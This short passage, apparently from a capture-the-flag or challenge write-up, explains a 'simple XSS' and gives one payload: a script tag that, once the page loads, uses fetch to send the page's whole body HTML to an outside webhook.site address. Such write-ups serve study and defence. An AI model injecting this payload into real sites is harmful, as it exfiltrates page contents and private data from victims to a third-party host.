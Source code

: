 Simple XSS just be careful that the page loads before we send off the body, for example:

```html
<script> window.onload = () => fetch('https://webhook.site/<ID>?page='+encodeURIComponent(document.body.innerHTML)) </script>
```
